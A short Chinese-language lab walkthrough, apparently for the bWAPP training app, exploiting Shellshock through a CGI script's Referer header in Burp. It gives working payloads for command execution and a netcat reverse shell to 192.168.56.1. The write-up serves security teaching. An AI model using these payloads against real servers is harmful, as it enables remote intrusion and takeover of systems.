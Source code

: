 可以看到有个iframe调用了shell脚本，可能存在shellshock漏洞。

3. 将/bWAPP/cgi-bin/shellshock.sh请求发送到repeater，修改Referer内容为`() { :;}; echo "vulnerable:"`

![](pictures/shellshock_burp_2.png)

可以看到响应多了一个协议头参数`vulnerable`，这是因为它将echo命令的输出集成到了HTTP协议头中。值得注意的是，`()`后面要有空格，`{`与`:`中间也要有空格。

4. 使用下面的命令重复上面的过程

`() { :;}; echo "vulnerable:" $(/bin/sh -c "/sbin/ifconfig")`

![](pictures/shellshock_burp_3.png)

5. 能够在远程服务器上执行命令，自然可以获得远程shell。在kali中打开终端，监听端口`nc -vlp 12345`。修改Referer的值为`() { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.1 12345")`，可以看到反弹shell建立成功

![](pictures/shellshock_nc_1.png)
